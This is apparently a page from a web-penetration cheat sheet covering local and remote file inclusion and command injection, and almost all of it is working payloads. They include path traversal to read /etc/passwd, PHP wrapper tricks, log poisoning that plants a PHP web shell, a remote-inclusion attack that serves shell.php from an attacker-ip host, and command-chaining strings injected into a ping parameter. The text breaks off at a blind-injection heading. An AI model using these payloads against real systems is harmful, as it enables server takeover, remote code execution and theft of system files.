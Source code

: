 ### Local File Inclusion (LFI)

#### Basic LFI Tests
```bash
# Linux targets
http://<target>/page.php?file=../../../etc/passwd
http://<target>/page.php?file=....//....//....//etc/passwd
http://<target>/page.php?file=/etc/passwd%00
http://<target>/page.php?file=php://filter/convert.base64-encode/resource=../../../etc/passwd

# Windows targets
http://<target>/page.php?file=../../../windows/system32/drivers/etc/hosts
http://<target>/page.php?file=C:\windows\system32\drivers\etc\hosts
http://<target>/page.php?file=....//....//....//windows//system32//drivers//etc//hosts
```

#### LFI to RCE Techniques
```bash
# Log poisoning (if logs are accessible)
# 1. Include log file via LFI
http://<target>/page.php?file=/var/log/apache2/access.log

# 2. Poison log by including PHP code in User-Agent
curl -A "<?php system(\$_GET['c']); ?>" http://<target>

# 3. Execute commands
http://<target>/page.php?file=/var/log/apache2/access.log&c=whoami

# PHP wrapper exploitation
http://<target>/page.php?file=php://input
# POST data: <?php system($_GET['c']); ?>

# Expect wrapper (if enabled)
http://<target>/page.php?file=expect://whoami
```

### Remote File Inclusion (RFI)
```bash
# Host malicious PHP file on attacker machine
echo '<?php system($_GET["c"]); ?>' > shell.php
python3 -m http.server 8000

# Include remote file
http://<target>/page.php?file=http://<attacker-ip>:8000/shell.php&c=whoami

# Alternative formats
http://<target>/page.php?file=http://<attacker-ip>:8000/shell.txt%00
http://<target>/page.php?file=ftp://anonymous@<attacker-ip>/shell.php
```

### Command Injection
```bash
# Basic command injection tests
http://<target>/ping.php?ip=127.0.0.1;id
http://<target>/ping.php?ip=127.0.0.1|id
http://<target>/ping.php?ip=127.0.0.1&&id
http://<target>/ping.php?ip=127.0.0.1`id`
http://<target>/ping.php?ip=127.0.0.1$(id)

# URL encoding
http://<target>/ping.php?ip=127.0.0.1%3Bid
http://<target>/ping.php?ip=127.0.0.1%7Cid

# Blind command injection (time delays)
```